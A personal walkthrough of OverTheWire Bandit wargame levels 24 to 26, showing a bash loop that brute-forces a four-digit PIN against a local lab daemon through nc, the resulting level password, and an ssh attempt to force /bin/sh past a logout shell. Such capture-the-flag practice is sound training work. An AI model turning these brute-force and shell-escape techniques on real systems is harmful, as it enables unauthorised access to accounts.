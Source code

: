 I plan on using a previous Bash loop I made as a template for this exercise. First I looked up how to make a loop of numbers with leading zeros. Thanks [StackOverflow](https://stackoverflow.com/questions/18460123/how-to-add-leading-zeros-for-for-loop-in-shell)!

```
for i in {0000..9999}; do echo "$i"; done
```

Naive solution:

```bash
for i in {0000..9999}; do
  echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" | nc localhost 30002
done > /tmp/beto/results
```

The problem with the solution above is that it re-establishes the connection to the daemon each time I try a new password. However the daemon does not exit when the wrong password is given. So the program above will hang on the first code. Therefore, it's better to generate the input before connecting to the server, then piping it to the daemon all at once:

```bash
for i in {0000..9999}; do
  echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done | nc localhost 30002 # > /tmp/beto/results
```

Result:

```bash
...
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

## [Level 25 -> Level 26](https://overthewire.org/wargames/bandit/bandit26.html)

Initially, my thoughts are to do the exact same thing as I did with the startup script that would log me out. (Level 18 -> Level 19)

```bash
ssh -i 26/bandit26.sshkey -p 2220 bandit26@bandit.labs.overthewire.org -t "/bin/sh"
```

```powershell
PS C:\Users\_\Documents\GitHub\wargames\Bandit> ssh -i 26/bandit26.sshkey -p 2220 bandit26@bandit.labs.overthewire.org -t "/bin/sh"
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
Connection to bandit.labs.overthewire.org closed.
```
